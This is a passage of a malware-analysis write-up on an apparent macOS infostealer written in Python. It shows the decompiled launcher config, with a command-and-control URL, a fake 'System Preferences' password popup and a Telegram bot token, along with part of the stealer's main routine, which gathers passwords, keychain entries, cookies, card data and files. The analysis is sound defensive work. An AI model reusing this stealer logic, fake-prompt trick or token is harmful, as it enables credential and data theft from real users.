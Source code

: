 The `weed__main__` script contains the following code: 
```python
# file weed__main__

___config__ = {
  'build_id': '4D32B7B1B7529E17F6E138C7E4146E31',
  'app_name': 'weed',
  'api_url': 'http://mac.cracked23.site',
  'popup_title': 'System Preferences',
  'popup_text': 'MacOS wants to access the System Preferences',
  'max_file_size': '100000000',
  'bot_token': '6056159172:AAEbi5hRzK-FCrLSs6JJH4cLjQMovTkPSX4',
  'bot_chat_id': '1550714282',
  'bot_channel_id': '-1001702526351'}
from en_data import Main         # ---------------> (1)
if __name__ == '__main__':
    try:
        main = Main(config=___config__)
        main.main()               # ---------------> (2)
    except Exception as e:
        try:
            print(e)
        finally:
            e = None
            del e
	    
```
It imports the `Main` module from `en_data` at `(1)` and executes the `main` function (`(2)`).  If you remember, we found the URL that the executable attempting to connect was  in `general.pyc` and the `general.pyc` file was also in the `lib\en_data` folder. Now we are making some connections. 

Next, I decompiled the `lib\en_data` folder using `decompyle3`:
```sh
decompyle3 en_data/* -o en_data_decompile  
```
The decompiled code of the `Main.main()`  method is as follows: 

```python
# file en_data/__init__.py

    def main(arg1):
        V = 'bot_channel_id'
        U = 'bot_chat_id'
        T = 'bot_token'
        S = 'os_version'
        R = 'build_id'
        K = 'data'
        J = 'keychain_passwords_amount'
        H = 'name'
        G = 'cookies_amount'
        F = 'cc_amount'
        E = 'passwords_amount'
        try:
            files_py = Files(max_file_size=(arg1.config['max_file_size']))
            arg1.temp_folder_path = files_py.create_temp_folder() #<---------------------- (3)
            arg1.generalInfo = General().get_general_info()  #<------------------------ (4)
	    arg1.files = files_py.get_all_files()
            for L in arg1.files.items():
                for W in L[1]:
                    files_py.copy_files_to_folder(f"'{W}'", L[0], f"{arg1.temp_folder_path}")  #<-------------------- (5)
	    
	    misc_py = Misc(arg1.temp_folder_path)
            misc_py.get_data() #<-------------------- (6)
```